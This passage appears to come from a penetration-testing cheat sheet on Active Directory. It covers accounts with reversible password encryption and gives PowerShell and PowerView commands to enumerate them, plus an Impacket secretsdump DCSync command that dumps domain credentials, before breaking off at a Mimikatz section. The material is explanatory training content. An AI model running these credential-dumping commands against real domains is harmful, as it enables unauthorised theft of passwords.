 
### Reversible Encryption Password Storage Set

![](img/reversible.png)

When this option is set on a user account, the passwords are stored using RC4 encryption, the key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin or equivalent.

Enumerate accounts with reversible Encryption Password Storage Set with Active Directive cmdlet:

```powershell
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

Enumerate accounts with reversible Encryption Password Storage Set with PowerView:

```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

To decrypt it we can use Impacket’s secretsdump.py:

```bash
secretsdump.py -outputfile $filename -just-dc $domain/$userSamAccountName@$ipDomainController
# As an example:
# secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

### Mimikatz

#### Way #1
Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:
